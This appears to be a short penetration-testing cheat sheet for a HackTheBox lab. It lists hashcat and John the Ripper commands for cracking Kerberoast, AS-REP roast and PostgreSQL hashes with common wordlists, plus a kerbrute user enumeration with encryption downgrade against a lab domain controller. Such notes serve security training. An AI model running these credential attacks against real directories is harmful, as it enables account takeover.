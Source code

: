 
 note downgrade your hash and try to crack it

**kerberoasting**

```bash
hashcat -m 13100 -a 0 GetUserSPNs.out ~/rockyou.txt
```

```bash
john --wordlist=/root/rockyou.txt hash
```

**ASREPRoast**

```bash
hashcat -m 18200 -a 0 service-users-hash.txt ~/rockyou.txt
```
**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```


**postgresql hash cracking**

```sh
hashcat -m 12001 hashes-postgresql /usr/share/wordlists/fasttrack.txt
```
